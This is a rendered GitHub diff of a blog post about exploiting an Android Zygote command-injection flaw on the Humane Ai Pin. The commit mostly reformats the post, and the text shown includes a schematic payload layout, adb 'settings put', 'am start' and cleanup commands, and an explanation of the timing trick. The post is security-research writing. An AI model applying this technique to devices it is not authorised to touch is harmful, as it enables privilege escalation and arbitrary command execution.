

Before and after one commit to agg23/writings, a Markdown page: posts/hacking_ai_pin.md, the part around the change printed below. Shown: that part at 93% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/posts/hacking_ai_pin.md
+++ b/posts/hacking_ai_pin.md
@@ -49,20 +53,20 @@ The exploit process ([see here for a detailed explanation](https://github.com/ag
 1. Attacker constructs a payload. On Android 12+ this payload needs to exploit specific timing and logic details to force the Zygote process launch system to execute our command. For simplicity sake, our payload looks something like:
 
 ```
-────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
+───────────────────────────────────────────────────────────────────────────────────────────────
 BEGIN SETTINGS PAYLOAD
-────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
+───────────────────────────────────────────────────────────────────────────────────────────────
 
 \n                                      # Newlines (~3000x for padding)
 \n
 \n
 ...
 \n
-AAAAA...A                               # Any non-newline char; pads total to ~8196 bytes (includes Android-added bytes)
-
-────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
+AAAAA...A                               # Any non-newline char; pads total to ~8,196 bytes
+                                        # (includes some Android-added bytes not seen here)
+───────────────────────────────────────────────────────────────────────────────────────────────
 START OF ATTACKER-INJECTED COMMAND
-────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
+───────────────────────────────────────────────────────────────────────────────────────────────
 
 1234\n                                  # Number of arguments in command
 --various-zygote-internal-arguments\n   # Determines permissions for new process
@@ -70,16 +74,17 @@ START OF ATTACKER-INJECTED COMMAND
 [ATTACKER SH COMMAND]\n                 # Malicious shell command supplied by attacker
 android.app.ActivityThread\n            # Expected entrypoint class to keep structure valid
 
-────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
+───────────────────────────────────────────────────────────────────────────────────────────────
 END OF ATTACKER-INJECTED COMMAND
-────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
+───────────────────────────────────────────────────────────────────────────────────────────────
 
-,,,,,,,,...                             # Trailing commas tuned to timing constraints
-                                        # (count of total commas + newlines) <= 12,200 in Android 12L
+,,,,,,,,...,                            # Number of trailing commas is tuned for timing
+                                        # (count of total commas + newlines) <= 12,200 in
+                                        # Android 12L
 
-────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
+───────────────────────────────────────────────────────────────────────────────────────────────
 END SETTINGS PAYLOAD
-────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
+───────────────────────────────────────────────────────────────────────────────────────────────
 ```
 
 2. Attacker writes the payload to the vulnerable global setting `hidden_api_blacklist_exemptions`. This can be done over ADB as we see below, or in any app with the `WRITE_SECURE_SETTINGS` permission (which an app from the Play Store may possess, making this a very dangerous CVE).
@@ -91,7 +96,8 @@ settings put global hidden_api_blacklist_exemptions [payload]
 # Start exploit if it didn't already trigger and provide a spawn command to eat (see below)
 am start -n com.android.settings/com.android.settings.Settings
 
-# Immediately clean up exploit; Zygote should have started processing, and we want to protect against boot loops
+# Immediately clean up exploit; Zygote should have started processing, and we want to
+# protect against boot loops
 settings delete global hidden_api_blacklist_exemptions
 ```
 
@@ -101,7 +107,7 @@ settings delete global hidden_api_blacklist_exemptions
 
 This explanation can be seen in much more detail in https://github.com/penumbraOS/pinitd/issues/4.
 
-Unfortunately successfully triggering the vulnerability is not the full story on the Ai Pin due to an unfortunate way of how the Pin's OS is set up. As seen in the attacker's commands above, a start of another Android app is used to trigger the vulnerabiltity. This is very intentional, as there's actually a delicate IPC between the Zygote process and the Activity Manager Service (AMS). When AMS requests a process spawn (either via a user tapping an app icon or `am start`), it sends a command (like the attacker's payload) to Zygote, asking it to spawn. Zygote then responds with some bytes indicating the spawned PID and an irrelevant boolean.
+Unfortunately, successfully triggering the vulnerability is not the full story on the Ai Pin due to an unfortunate way of how the Pin's environment is set up. As seen in the attacker's commands above, a start of another Android app is used to trigger the vulnerabiltity. This is very intentional, as there's actually a delicate IPC between the Zygote process and the Activity Manager Service (AMS). When AMS requests a process spawn (either via a user tapping an app icon or `am start`), it sends a command (like the attacker's payload) to Zygote, asking it to spawn. Zygote then responds with some bytes indicating the spawned PID and an irrelevant boolean.
 
 This represents a problem for the attacker. When Zygote executes the injected process spawn command, it will send those extra five bytes to AMS. AMS will get confused and kill Zygote, as it's clearly broken. `init` will see it lost its `zygote` child, and run an init script that soft reboots the device by restarting Zygote, AMS, and most of the core Android systems. That ruins any exploit progress the attacker made. Instead as Meta showed, the attacker tricks the AMS-Zygote pair. The attacker builds their payload to say it contains more newlines than it has. If the `hidden_api_blacklist_exemptions` setting modification happens _immediately_ before AMS requests an app spawn, Zygote will end up only processing one command (the vulnerable command), as it starts to consume the next command (the app spawn) as part of the previous one, discarding it as it doesn't make any sense. The unconsumed part of the command is flushed from the command buffer due to an unrelated Android bug. Since we had AMS request an app spawn at the same time as our settings set, AMS was expecting the aforementioned five bytes from the new process, and Zygote provides them. The bytes are from the wrong process (the vulnerable process, not the app that never actually started), but AMS won't know.
 
````
Also changed, not shown: other parts of posts/hacking_ai_pin.md (+40 -35 lines).
